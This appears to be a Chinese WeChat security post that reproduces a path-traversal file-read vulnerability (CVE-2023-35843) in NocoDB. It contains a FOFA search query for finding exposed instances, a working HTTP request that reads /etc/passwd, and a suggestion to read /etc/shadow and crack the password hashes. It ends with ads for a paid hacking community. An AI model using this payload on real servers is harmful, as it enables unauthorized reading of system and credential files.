#  【漏洞复现】NocoDB任意文件读取(CVE-2023-35843)   
 渗透安全团队   2023-10-14 23:47  
  
前言  
  
由于微信公众号推送机制改变了，快来  
**星标**  
不再迷路，谢谢大家！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8DungicHdGVdJpoQp8uIUIs13xBa1eTRSObiczwsfbtDvKU0ibAfkHegDGV2o4daf95jVdO9rnFeny7A/640?wx_fmt=png "")  
# 免责声明：  
  
文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！  
## 一：漏洞描述  
  
NocoDB 是 Airtable 的开源替代方案，可以“一键”将 MySQL、PostgreSQL、SQL Server、SQLite 和 MariaDB 转换为智能电子表格。此软件存在任意文件读取漏洞。  
## 二：漏洞影响版本  
  
version<=0.106.1  
## 三：网络空间测绘查询  
  
fofa:icon_hash="-2017596142"![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CBJYPapLzSH3gJRHOVJBmiczJf3kRPCwbqT8cmpCJ9L3y2K8smLWgGT2VrgP6bqymTagKs6gl3RAuRehnfKQJGw/640?wx_fmt=jpeg&random=0.755763352566883 "")  
  
## 四：漏洞复现  
  
poc  
```
GET /download/..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CBJYPapLzSH3gJRHOVJBmiczJf3kRPCwb7Owv8oMTsZTTmkD4x9lP5gwDbjNeLicQ04ElbzcQUCHJPssf510GzGQ/640?wx_fmt=jpeg&random=0.2731431995439051 "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CBJYPapLzSH3gJRHOVJBmiczJf3kRPCwbmvpee3sCsRpFVhNobQ3HIYTMShISNvw940zth8wuVicv2v96yFYzTow/640?wx_fmt=jpeg&random=0.929962565437165 "")  
## 五：漏洞利用  
  
可通过读取/etc/shadow读取到加密后的用户名密码，解密后进行后续测试工作  
## 六：修复建议  
  
及时更新至最新版本  
```
原文地址： https://www.freebuf.com/articles/web/379844.html
```  
  
  
**★**  
  
**付费圈子**  
  
  
**欢 迎 加 入 星 球 ！**  
  
**代码审计+免杀+渗透学习资源+各种资料文档+各种工具+付费会员**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/pLGTianTzSu7XRhTMZOBAqXehvREhD5ThABGJdRialUx3dQWwO7fclsicyiajicKfvXV4kHs38nkwFxUSckVF2nYlibA/640?wx_fmt=gif&random=0.4447566002908574&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
**进成员内部群**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/pPVXCo8Wd8AQHAyOTgM5sLrvP6qiboXljGWG0uOdvcNR8Qw5QJLxSVrbFds2j7MxExOz1ozb9ZoYwR68leoLdAg/640?wx_fmt=jpeg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/pLGTianTzSu7XRhTMZOBAqXehvREhD5ThABGJdRialUx3dQWwO7fclsicyiajicKfvXV4kHs38nkwFxUSckVF2nYlibA/640?wx_fmt=gif&random=0.09738205945672873&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
**星球的最近主题和星球内部工具一些展示******  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/pPVXCo8Wd8Doq0iczyRiaBfhTQyfzqSGuia4lfHfazabEKr2EDe7sGVoxUhLrNRA4FbI1yef6IkWdmzxvZrTiaJncg/640?wx_fmt=jpeg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8BmE6FAA8Bq7H9GZIRt1xYZpmYNWxrrzolt71FtX5HyM03H0cxkiaYelv7ZSajLtibEdBXUpCibdItXw/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8ADSxxicsBmvhX9yBIPibyJTWnDpqropKaIKtZQE3B9ZpgttJuibibCht1jXkNY7tUhLxJRdU6gibnrn0w/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8DKZcqe8mOKY1OQN5yfOaD5MpGk0JkyWcDKZvqqTWL0YKO6fmC56kSpcKicxEjK0cCu8fG3mLFLeEg/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8CKksEIzZyEb3tEFGzGYSXfribrG4jKOkRKGKYb7zk7MTNZPT6Wp3bLd2BPhuFHddIL6sqrg1d2qHQ/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8D0bS8ibc3XhFcDYkVusFvc3c6onthQpPGZn4v32rpOp7CeFiamGdeC7JBk0mGVsiciazLp3z0SIJAtnQ/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8B96heXWOIseicx7lYZcN8KRN8xTiaOibRiaHVP4weL4mxd0gyaWSuTIVJhBRdBmWXjibmcfes6qR1w49w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8DKZcqe8mOKY1OQN5yfOaD5MpGk0JkyWcDKZvqqTWL0YKO6fmC56kSpcKicxEjK0cCu8fG3mLFLeEg/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8AqNwoQuOBy9yePOpO5Kr6aHIxj7d0ibfAuPx9fAempAoH9JfIgX4nKzCwDyhQzPrRIx4upyw5yT4Q/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
****  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/pLGTianTzSu7XRhTMZOBAqXehvREhD5ThABGJdRialUx3dQWwO7fclsicyiajicKfvXV4kHs38nkwFxUSckVF2nYlibA/640?wx_fmt=gif&random=0.4447566002908574&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
**加入安全交流群**  
  
  

								[                ](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489372&idx=1&sn=5e14ba5fa59059fb1ee405e56ef90d40&chksm=c175eaf3f60263e5ef5415a8a9fc134f0890fdb9c25ab956116d17109baf98b3bd6bed572a2d&scene=21#wechat_redirect)  

			                  
  
  
**关 注 有 礼**  
  
  
  
关注下方公众号回复“  
666  
”可以领取一套领取黑客成长秘籍  
  
![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeSsicAgIUNHtMib9a69NOWXw1A7mgRqqiat1SycQ0b6e5mBqC0pVJ3oicrQnCTh4gqMGiaKUPicTsUc4Tw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
 还在等什么？赶紧点击下方名片关注学习吧！![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeSsicAgIUNHtMib9a69NOWXw1A7mgRqqiat1SycQ0b6e5mBqC0pVJ3oicrQnCTh4gqMGiaKUPicTsUc4Tw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
**推荐阅读**  
  
  
  
[干货｜史上最全一句话木马](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489259&idx=1&sn=b268701409ad4e8785cd5ebc23176fc8&chksm=c175eb44f60262527120100bd353b3316948928bd7f44cf9b6a49f89d5ffafad88c6f1522226&scene=21#wechat_redirect)  
  
  
  
[干货 | CS绕过vultr特征检测修改算法](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247486980&idx=1&sn=6d65ae57f03bd32fddb37d7055e5ac8e&chksm=c175f3abf6027abdad06009b2fe964e79f2ca60701ae806b451c18845c656c12b9948670dcbc&scene=21#wechat_redirect)  
  
  
  
[实战 | 用中国人写的红队服务器搞一次内网穿透练习](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247488628&idx=1&sn=ff2c617cccc00fe262ed9610c790fe0e&chksm=c175e9dbf60260cd0e67439304c822d28d510f1e332867e78a07d631ab27143309d14e27e53f&scene=21#wechat_redirect)  
  
  
  
[实战 | 渗透某培训平台经历](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247488613&idx=1&sn=12884f3d196ac4f5c262a587590d516d&chksm=c175e9caf60260dcc0d5d81a560025d548c61fda975d02237d344fd79adc77ac592e7e562939&scene=21#wechat_redirect)  
  
  
  
[实战 | 一次曲折的钓鱼溯源反制](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489278&idx=1&sn=5347fdbf7bbeb3fd37865e191163763f&chksm=c175eb51f602624777fb84e7928bb4fa45c30f35e27f3d66fc563ed97fa3c16ff06d172b868c&scene=21#wechat_redirect)  
  
  
  
**免责声明**  
  
由于传播、利用本公众号渗透安全团队所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号渗透安全团队及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
好文分享收藏赞一下最美点在看哦  
  
